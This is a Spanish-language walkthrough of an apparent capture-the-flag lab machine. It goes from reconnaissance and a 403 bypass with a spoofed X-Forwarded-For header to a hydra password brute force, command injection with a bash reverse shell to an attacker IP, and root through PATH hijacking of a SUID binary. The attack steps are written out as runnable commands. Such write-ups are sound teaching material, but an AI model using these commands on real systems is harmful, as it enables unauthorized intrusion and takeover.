## FASE DE RECONOCIMIENTO
Vamos a ver la IP de la máquina victima con:

```bash
sudo arp-scan -l | grep "PCS"
```


Como vemos la IP es--->192.168.1.43 

Vamos a hacer un scaneo de puertos para ver cuales están abiertos, que servicios corren por ellos y sus versiones para ver si son vulnerables:

```bash
sudo nmap -sS -sCV -Pn --min-rate 5000 -p- -vvv --open 192.168.1.43 -oN PuertosYservicios
```







-Puerto 22 por el que corre SSH versión no vulnerable

-Puerto 80 HTTP que es en lo que nos vamos a centrar

lanzo un whatweb y un curl para ver si hay algo interesante, pero quitando que es un nginx nada más




Vamos a ver que nos encontramos en la página web:





En el código fuente no veo nada interesante, un panel de login etc asi pues vamos a hacer un poco de fuzzing:


```bash
gobuster dir -u http://192.168.1.43/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,html
```



veo bastantes rutas pero /api y /secret son interesantes. secret me da un 403, vamos a ver que hace:



Tenemos un acceso denegado, vamos a intentar puentearlo, probamos con curl y la cabecera `X-Forwarded-For`

```bash
curl -i -H 'X-Forwarded-For: 127.0.0.1' http://192.168.1.43/secret
```
vemos un 200 OK, parece que lo hemos baypaseado, pero vamos a hacerlo en web para verelo mas bonito porque esta parte me interesa:


```

section class="wrap"><div class="flagbox">
  <span class="granted">&#10003; Internal access granted (127.0.0.1)</span>
  <h1>Volt - Internal Staff Panel</h1>
  <p style="color:var(--muted)">This endpoint is for the internal network only. You successfully bypassed the 403 protection.
  Staff tools are available in the <a href="/admin" style="color:var(--brand)">admin panel</a>.</p>
  <div class="flag">FLAG: CS{403_byp4ss_x_forwarded_for}</div>
  <div class="internal-grid">
```

vamos a modificar la petición con burp y vemos que pasa:







vale, tenemos acceso al panel de admin:




despues de probar varias inyecciones sql,xss, etc y sabiendo que el usuario es admn, vamos a lanzar un ataque de fuerza bruta con hydra. Capturamos la petición y lanzamos el ataque:



lanzamos el ataque:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.43 http-post-form "/admin:username=admin&password=^PASS^:Invalid" -F -I
```

nos da este error:

```
[ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set [ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set [ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set [ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set "1=".
[ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set "1=".
[ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set "1=".
[ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set "1=".
[ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set [ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set [ERROR] received HTTP error code 401. The target may be using HTTP auth, not a web form.  Use module "http-get" instead, or set "1=".
"1=".
"1=".
"1=".
```

lo arreglamos así:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.43 http-post-form "/admin:username=admin&password=^PASS^:1=:Invalid" -F -I 
```



Pues ya tenemos user y pass para el panel `admin:chocolate3`

## FASE INTRUSIÓN

Pues vemos un panel de diagnostico del sistema, haciendo una prueba facil, consigo ejecución de comandos:




me pongo en escucha por el puerto 4444

```bash
sudo nc -nvlp 4444
```




lanzo la reverseshell:

```bash
127.0.0.1;bash -c 'bash -i >& /dev/tcp/192.168.1.44/4444 0>&1'
```





y ya estamos dentro:




## ESCALADA DE PRIVILEGIOS

Hacemos tratamiento de la TTY:

```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```
mirando binarios vulnerables con el bit SUID encuentro algo interesante:

```bash
find / -perm -4000 2>/dev/null
```





compruebo con file que efectivamente se trata de un binario y con ls -la que efectivamente es SUID:





vamosa mirar con strings si encontramos algo en el binario o sino ya procederemos a analizarlo:

```bash
strings /usr/local/bin/procmon | grep -Ei 'system|exec|popen|sh|bash|cat|ps|proc|tmp|PATH'
```



vemos `ps -e`,  probablemente el binario haga algo como `system("ps -e");` y se me viene a la mente que como no es ruta absoluta hacer un PATH Hijacking con `ps'

me voy a /tmp y compruebo las rutas del PATH:
```bash
cd /tmp
echo $PATH
```
ahora añado al PATH `/tmp` como primera ruta a mirar:

```bash
export PATH=/tmp:$PATH
```

y compruebo el nuevo PATH
```bash
echo $PATH
```





Ahora solo tengo que crear un script que se llame `ps` y el binario buscará primero en `/tmp` si existe, como lo he creado va a ejecutar mi script

1-creamos un script por ejmplo así:

```bash
echo "chmod u+s /bin/bash" > ps
```
2-damos permisos de ejecución

```bash
chmod +x ps
```

3-ejecutamos el binario:

```bash
/usr/local/bin/procmon
```

4- como `/bin/bash` tiene ahora el Bit SUID podemos ejecutarlo y hacernos root:
```bash
/bin/bash -p
```


